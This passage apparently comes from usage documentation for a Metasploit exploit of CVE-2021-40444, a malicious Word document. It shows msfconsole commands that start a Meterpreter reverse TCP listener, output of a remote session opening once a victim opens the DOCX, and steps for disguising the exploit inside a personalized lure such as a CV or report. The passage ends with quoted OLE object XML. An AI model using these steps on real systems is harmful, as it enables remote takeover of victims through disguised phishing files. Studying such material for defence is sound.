 #### Run the DOCX payload on a vulnerable system.

In this example, using `msfvenom` for the payload creation. Create a listener:

```
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.20.7.36
lhost => 172.20.7.36
msf6 exploit(multi/handler) > run -j 
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 172.20.7.36:4444 

msf6 exploit(multi/handler) > 
```

Open the DOCX exploit on a vulnerable system.

```
msf6 exploit(multi/handler) > 
[*] Sending stage (200262 bytes) to 172.20.7.36
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.7.36:59038) at 2021-11-08 21:14:30 +0400

msf6 exploit(multi/handler) >
```

### Make your own DOCX template

You need to create new office document and personalizing it by your own model (CV, Report, ...).

The easy way, copy and paste (keep formating) from `data/exploits/cve-2021-40444.docx`.

You can copy this anywhere in the document.

Save the document and unpack this.

Check that `word/documment.xml` contains something like:

```
<w:object w:dxaOrig="4320" w:dyaOrig="4320">
  <v:shapetype id="_x0000_t75" coordsize="21600,21600" o:spt="75" o:preferrelative="t" path="m@4@5l@4@11@9@11@9@5xe" filled="f" stroked="f">
    <v:stroke joinstyle="miter"/>
    <v:formulas>
      <v:f eqn="if lineDrawn pixelLineWidth 0"/>
      <v:f eqn="sum @0 1 0"/>
      <v:f eqn="sum 0 0 @1"/>
      <v:f eqn="prod @2 1 2"/>
      <v:f eqn="prod @3 21600 pixelWidth"/>
      <v:f eqn="prod @3 21600 pixelHeight"/>
      <v:f eqn="sum @0 0 1"/>
      <v:f eqn="prod @6 1 2"/>
      <v:f eqn="prod @7 21600 pixelWidth"/>
      <v:f eqn="sum @8 21600 0"/>
      <v:f eqn="prod @7 21600 pixelHeight"/>
      <v:f eqn="sum @10 21600 0"/>
    </v:formulas>
    <v:path o:extrusionok="f" gradientshapeok="t" o:connecttype="rect"/>
    <o:lock v:ext="edit" aspectratio="t"/>
  </v:shapetype>
  <v:shape id="_x0000_i1025" type="#_x0000_t75" style="width:3.75pt;height:3.75pt" o:ole="">
    <v:imagedata r:id="rId4" o:title="" cropbottom="64444f" cropright="64444f"/>
  </v:shape>
```